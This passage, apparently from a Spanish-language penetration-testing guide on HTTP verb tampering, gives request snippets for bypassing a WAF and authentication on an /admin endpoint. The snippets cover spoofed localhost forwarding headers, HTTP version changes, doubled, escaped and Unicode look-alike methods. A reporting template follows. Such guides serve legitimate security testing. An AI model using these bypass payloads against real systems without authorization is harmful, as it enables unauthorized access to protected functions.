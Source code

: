#### 3. Custom Headers
```http
# Añadir headers que confunden el WAF
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Real-IP: 127.0.0.1
```

#### 4. HTTP Version Manipulation
```http
# Usar diferentes versiones HTTP
GET /admin HTTP/1.0
GET /admin HTTP/2.0
```

### Bypass de Validación

#### 1. Double Method
```http
GET POST /admin HTTP/1.1
Host: target.com
```

#### 2. Method with Special Characters
```http
GET\x20/admin HTTP/1.1
Host: target.com
```

#### 3. Unicode Normalization
```http
# Usar caracteres unicode similares
GÉT /admin HTTP/1.1
Host: target.com
```

---

## Documentación y Reporting

### Estructura de Reporte

#### Resumen Ejecutivo
- **Vulnerabilidad**: HTTP Verb Tampering
- **Severidad**: Alta/Media/Baja
- **Impacto**: Bypass de controles de acceso
- **Afectados**: Endpoints específicos

#### Detalles Técnicos

##### Descripción de la Vulnerabilidad
```markdown
La aplicación no valida correctamente los métodos HTTP permitidos en el endpoint 
/admin, permitiendo bypass de autenticación mediante el uso de métodos alternativos.
```
